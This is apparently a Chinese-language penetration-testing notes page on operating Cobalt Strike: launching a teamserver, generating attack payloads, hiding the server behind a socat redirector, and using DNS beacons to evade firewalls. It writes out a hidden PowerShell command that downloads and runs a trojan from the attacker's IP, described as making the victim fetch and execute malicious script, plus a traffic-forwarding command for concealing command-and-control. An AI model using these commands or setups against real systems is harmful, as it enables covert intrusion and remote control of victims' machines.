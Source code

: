 ```yaml
---
title: cobaltstrike
date: 2020-11-06 10:28:40
tags: 渗透测试
---
```


# Cobaltstrike

# 一、基础使用

```
./teamserver 192.168.43.224 123456 启动服务器端
在windows下的链接
双击bat文件即可
在linux下
./start.sh
```

让目标机器链接上teamserver

```
1.设置好监听器
2.生成攻击载荷
	url它是个文件路径，就是让目标（受害者）通过地址下载恶意脚本
	powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.43.224:80/a'))"
	http://192.168.43.224/a这是一段木马
	就是使用powershell来进行下载代码并且运行
3.攻击
```

## 二、Cobalt Stike使用重定器

第一保护服务器地址，并作为攻击者，它也是一个很好的安全操作。第二 它给予了一些很好的适应能力，假如工具中有一两个堵塞了也没有什么大不了的，也可以进行通信。

```
socat TCP4-LISTEN:80,fork TCP4:team.cskali.com:80 将监听道德80端口的数据转发到teamserve的80端口上
```

在监听的host设置上来，应该设置为分机的host上的80端口，因为已经做了转发，可以直接设置。

然后再设置beacon时，相当于几个备用的接口。

注意DNS

的设置（当然在公网环境下买的没有这个需求）

## 三、DNS Beacon的使用与原理

DNS木马隐蔽性好，在受害者不会开放任何端口，可以有效地规避防火墙协议，走的是53端口
